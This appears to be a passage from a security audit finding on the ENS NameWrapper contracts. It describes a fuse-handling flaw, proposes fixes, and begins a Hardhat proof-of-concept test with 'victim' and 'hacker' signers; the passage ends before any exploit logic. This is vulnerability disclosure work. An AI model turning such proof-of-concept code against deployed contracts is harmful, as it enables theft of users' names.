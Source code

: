 ### Notes

Discussed with the project member, Jeff Lau. 

If there is any issue running the attached PoC code, please contact me via `izhuer#0001` discord.


### Suggested Fix

+ Potential fix 1: auto-burn `CANNOT_UNWRAP` which thus lets `expiry` decide whether a node can be unwrapped.
+ Potential fix 2: leave fuses as is when unwrapping and re-wrapping, unless name expires. Meanwhile, check the old fuses even wrapping.


### PoC / Attack Scenario

There are two attached PoC files, `poc1.js` and `poc2.js`. The `poc1.js` is for a case where the hacker holds a 2LD, and the `poc2.js` demonstrates the aforementioned scenario.

To run the PoC, put then in `2022-07-ens/test/wrapper` and run `npx hardhat test --grep 'PoC'`.


#### poc1.js
```javascript
const packet = require('dns-packet')
const { ethers } = require('hardhat')
const { utils } = ethers
const { use, expect } = require('chai')
const { solidity } = require('ethereum-waffle')
const n = require('eth-ens-namehash')
const namehash = n.hash
const { deploy } = require('../test-utils/contracts')
const { keccak256 } = require('ethers/lib/utils')

use(solidity)

const labelhash = (label) => utils.keccak256(utils.toUtf8Bytes(label))
const ROOT_NODE =
  '0x0000000000000000000000000000000000000000000000000000000000000000'

const EMPTY_ADDRESS = '0x0000000000000000000000000000000000000000'

function encodeName(name) {
  return '0x' + packet.name.encode(name).toString('hex')
}

const CANNOT_UNWRAP = 1
const CANNOT_BURN_FUSES = 2
const CANNOT_TRANSFER = 4
const CANNOT_SET_RESOLVER = 8
const CANNOT_SET_TTL = 16
const CANNOT_CREATE_SUBDOMAIN = 32
const PARENT_CANNOT_CONTROL = 64
const CAN_DO_EVERYTHING = 0

describe('PoC 1', () => {
  let ENSRegistry
  let BaseRegistrar
  let NameWrapper
  let NameWrapperV
  let MetaDataservice
  let signers
  let dev
  let victim
  let hacker
```